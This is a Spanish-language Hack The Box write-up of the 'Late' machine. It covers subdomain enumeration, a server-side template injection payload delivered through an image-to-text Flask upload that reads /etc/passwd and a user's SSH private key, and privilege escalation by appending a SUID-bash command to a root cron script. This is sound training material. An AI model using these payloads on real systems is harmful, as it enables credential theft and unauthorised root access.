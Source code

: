 ```yaml
---
layout: single
title: Late - Hack The Box
excerpt: "Para resolver esta máquina, enumeramos sub-dominios encontrándonos con un sub-dominio que convierte en texto las imagenes a través del framework Flask, abusamos la subida de estás imagenes, para que a la hora de subir una imagen inyectar código malicioso en ésta, es decir un SSTI, logrando así enumerar usuarios válidos del sistema, posteriormente la clave privada SSH de uno, por último abusamos de una tarea cron qué Root ejecuta cada cierto tiempo un script en Bash qué tenemos permisos de escritura, pero al tener el atributo append-only debemos modificar el código de una manera distinta, logrando así darle permisos SUID a la bash mediante ésta tarea CRON."
date: 2023-11-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-late/late_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - subdomain enumeration
  - abusing Upload File - Image to Text Flask Utility
  - SSTI
  - reading files through SSTI - SSH Private Key
  - Abusing Cron Job (Privilege Escalation)

---
```


Para resolver esta máquina, enumeramos sub-dominios encontrándonos con un sub-dominio que convierte en texto las imagenes a través del framework Flask, abusamos la subida de estás imagenes, para que a la hora de subir una imagen inyectar código malicioso en ésta, es decir un SSTI, logrando así enumerar usuarios válidos del sistema, posteriormente la clave privada SSH de uno, por último abusamos de una tarea cron qué Root ejecuta cada cierto tiempo un script en Bash qué tenemos permisos de escritura, pero al tener el atributo append-only debemos modificar el código de una manera distinta, logrando así darle permisos SUID a la bash mediante ésta tarea CRON.

# PortScan
________
```
# Nmap 7.93 scan initiated Mon Nov 27 17:44:00 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 27 17:44:10 2023 -- 1 IP address (1 host up) scanned in 9.80 seconds
```

# WebSite
____

![](/assets/images/htb-writeup-late/Pasted image 20231127182726.png)

Enumerando posibles directorios & viendo el código fuente no encontré nada interesante, así que decidí enumerar posibles **sub-dominios** para éste dominio.

```bash
gobuster vhost -u http://late.htb/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -k
===============================================================
===============================================================
Found: images.late.htb (Status: 200) [Size: 2187]
```

descubriendo así un sub-dominio "**images.late.htb**", hacemos virtual hosting metiendo éste en el "**/etc/hosts**", una vez tengamos esto podemos ingresar al sub-dominio, encontrándonos con ésto.

![](/assets/images/htb-writeup-late/Pasted image 20231127183209.png)

Viendo qué podemos convertir imágenes a texto, esto con el framework "**Flask**" qué está escrito en python.

Creamos una imagen con un texto básico ésto con la ayuda de "**libreoffice**" y "**scrot**" para tomar la captura.

1. Abrimos el "**libreoffice**" y ponemos un texto para tomarle captura.
![](/assets/images/htb-writeup-late/Pasted image 20231127183421.png)

2. Corremos el "**scrot**" con un tiempo de espera para que nos de chance a volver al **"libreoffice"** y tomar la captura.
```bash
sleep 3; scrot -s capture.png
```

y tendríamos la captura del texto en "**libreoffice**" en capture.png.
![](/assets/images/htb-writeup-late/Pasted image 20231127183606.png)

Procedemos a subir ésta imagen a ver sí esta fuente logra interpretarla correctamente.

![](/assets/images/htb-writeup-late/Pasted image 20231127183908.png)

Vemos lo está interpretando, como está corriendo un **Flask**, se me ocurre probar un **SSTI** con una operación básica de multiplicación a ver si logra interpretarlo...

1. Ponemos una operación básica en el "**libreoffice**"
![](/assets/images/htb-writeup-late/Pasted image 20231127184101.png)

2. Tomamos la captura con "scrot"
```bash
sleep 3; scrot -s capture.png
```


Una vez con la captura, la subimos para ver los resultados...

![](/assets/images/htb-writeup-late/Pasted image 20231127184356.png)
Estamos logrando llevar a cabo el **SSTI**, así que se me ocurre aprovecharnos de esto para llevar a cabo una lectura de archivos de la máquina y ver el "**/etc/passwd**".
![](/assets/images/htb-writeup-late/Pasted image 20231127193325.png)
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Así que con "**scrot**" tomo una captura de ésto y la subo, viendo como resultado el contenido del "**/etc/passwd**".

como vemos en el "**result.txt"**
![](/assets/images/htb-writeup-late/Pasted image 20231127194153.png)

Viendo un usuario válido del sistema, por lo qué se me ocurre ver si está la clave privada **SSH** expuesta para éste usuario, en **"/home/svc_acc/.ssh/id_rsa"**
![](/assets/images/htb-writeup-late/Pasted image 20231127195153.png)

vemos qué está expuesta, así que procedemos a conectarnos con **SSH** desde nuestra máquina, pero primero debemos quitarles las etiquetas "**< p >**"
para posterior a ello conectarnos tal que así:
```bash
mv results.txt id_rsa
ssh -i id_rsa svc_acc@10.10.11.156

```

![](/assets/images/htb-writeup-late/Pasted image 20231127195853.png)


# Escalada de Privilegios
___

con el binario de [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1), no los enviamos a la máquina víctima desde un servidor python y le damos permisos de ejecución en la máquina víctima.
![](/assets/images/htb-writeup-late/Pasted image 20231127202232.png)

Vemos que **root**, está asignándole un atributo -**"a"** al script "**ssh-alert.sh**".

![](/assets/images/htb-writeup-late/Pasted image 20231127202450.png)

Vemos en los permisos que podemos editarlo, se me ocurre de primera darle permisos **SUID** a la bash ya que ROOT lo ejecuta.. pero nos deniega el permisos, esto por el atributo **"-a"**, que es "**append-only**", es decir, sólo podemos modificar el archivo metiéndole contenido desde append, es decir **>>**, sabiendo ésto.

1. en "**tmp**", creamos un archivo con contenido dentro que de permisos SUID a la Bash.
```
nano privesc.txt
```
2. Contenido del "**privesc.txt**"
```bash
chmod u+s /bin/bash
```

3. metemos el contenido de "privesc.txt" a "ssh-alert.sh":
```bash
cat privesc.txt >> /usr/local/sbin/ssh-alert.sh
```

4. Esperamos a qué se vuelva ejecutar la tarea CRON y ya la bash tendría SUID.
![](/assets/images/htb-writeup-late/Pasted image 20231127203036.png)

